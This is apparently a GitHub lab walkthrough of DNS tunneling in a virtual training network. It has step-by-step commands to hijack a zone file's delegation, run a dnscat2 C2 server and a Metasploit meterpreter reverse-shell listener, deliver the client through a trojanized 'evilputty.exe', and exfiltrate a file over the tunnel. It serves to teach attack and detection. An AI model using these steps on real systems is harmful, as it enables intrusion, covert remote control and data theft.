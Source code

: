 # DNS-Tunneling


# Set Up the Attack
When using DNS tunneling, the attacker must be able to act as an authoritative name server so that queries for name records are directed to his or her machine. Modern techniques use domain generation algorithms (DGA) to cycle rapidly through ephemerally-created domains. Our approach will be to compromise the records on another name server (hosted on LAMP) to create a delegation for a subdomain. Our attacking machine (PT1) will be the name server for this subdomain. To simplify things, we'll assume the compromise takes the form of having discovered the administrative credentials for LAMP.


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5d060a5c-fa65-438e-a98a-cbaa995ce2a5)

This step is necessary because for technical reasons we cannot use the DNS server running on DC1 as a resolver. We have to query the 515web.net server directly and have it resolve our queries for us. Note that this is an unsecure configuration for an authoritative name server.
![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c440c7c9-c5f6-472f-8926-49e80cd5526a)

Run the following command to open the DNS records for the 515web.net domain: **sudo nano db.515web.net**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/68b4925a-2a0a-4fad-ac21-0ad40d7ab658)

Add the following records to the end of the file to delegate the records for a subdomain (pwn.515web.net) to the IP address 192.168.2.192, which is the attack machine (PT1). Be careful to add the period at the end of the domain names:

**$ORIGIN pwn.515web.net.**

**@   IN   NS   ns1.pwn.515web.net.**

**ns1  IN    A   192.168.2.192**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/470df8b8-f6ac-430c-b583-bdcb3105bbfc)

Restart the server: **sudo service bind9 restart**


Lab topology—LAMP hosts DNS records for 515web.net, which have been corrupted to forward queries for a subdomain to PT1. The vLOCAL network is screened by the UTM1 router/firewall VM.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/e5649673-5006-4adc-a8ca-9eb5153749de)


# Set Up a Listener

On the attacking machine, we need to set up a server to listen for connection attempts, arriving as requests for records in the pwn.515web.net domain. We will use the dnscat2 tunneling tool, developed by Ron Bowes (github.com/iagox86/dnscat2/blob/master/README.md).


 Run the following commands:

**service apache2 start**

**cd ../Downloads/dnscat2/server**

**ruby ./dnscat2.rb pwn.515web.net**

(We also need to send the client to the victim machine. We'll use our familiar evilputty.exe malware to achieve this.)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5b5dc588-3619-449c-ab9a-d675a3a97adc)

Open a second terminal and run msfconsole


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/542cac3d-28ea-4049-8e90-d47800be494a)


At the msf5 prompt, run the following commands to start the listener for the reverse shell:

**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**

**set lhost 192.168.2.192**

**set lport 3389**

**exploit**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/b3a023c0-d7fa-469c-ae02-8a4ad142c92c)


# Trigger the Attack

To view the progress of the attack, we'll run a Wireshark capture on just the right ports (call it inspired foresight).

Logged into a PC VM using credentials of  **bobby**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4fcbb285-d2bf-43c4-8899-e31481d90523)

Start a Wireshark capture on the Ethernet interface with the following filter:

**host not 10.1.0.1 and (port 3389 or port 53)**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4f967f86-7f3b-4acd-9b72-981a47fcf188)



![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/0079bb65-658b-41c7-8b68-5f5dc1453c05)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c87e0204-145d-4984-bc96-fb58845c7498)


Switch to the terminal hosting dnscat2 and verify that a new window (1) has been created. You can ignore the Ruby errors. Note that the session is encrypted.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/226c9f13-4bea-4a79-bd27-d6a236062ba2)


Let's imagine that the attacker has switched access methods, leaving the DNS backdoor running.
<br>

Switch to the terminal hosting dnscat2 and run the following commands to navigate the local system:

**window --i=1**

**shell**

**window --i=2**

**dir**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/79160d47-0f34-46f7-a017-0ac3a947ba39)

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/a070985b-c1df-4f12-af75-fbdac9b59b54)


Let's say that the GPO zip file is of interest. We can use the DNS tunnel to download it. Run the following commands to close the local shell, reconnect to the original prompt, and run the download command:

**exit**

**window --i=1**

**download gpo.zip /root/Downloads/gpo.zip**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/07082657-6cb8-449c-8e00-c488480dce1e)


Switch to PC1. Stop the Wireshark capture and scroll to the start of the output.

Observe the Meterpreter session established over port 3389. This is the common port for Microsoft's Remote Desktop Protocol (RDP), but the data transfer here is using raw TCP packets.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/cbffe2ee-a4f0-4437-a28a-29486b263bc7)

Scroll toward the end of the capture to observe the DNS tunneling traffic. Note that a variety of record types are used.

While this technique can circumvent many firewall configurations, it is distinctively noisy and simple for IDS to detect.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/f31869fc-a538-4a26-bc09-53b30f01b94a)

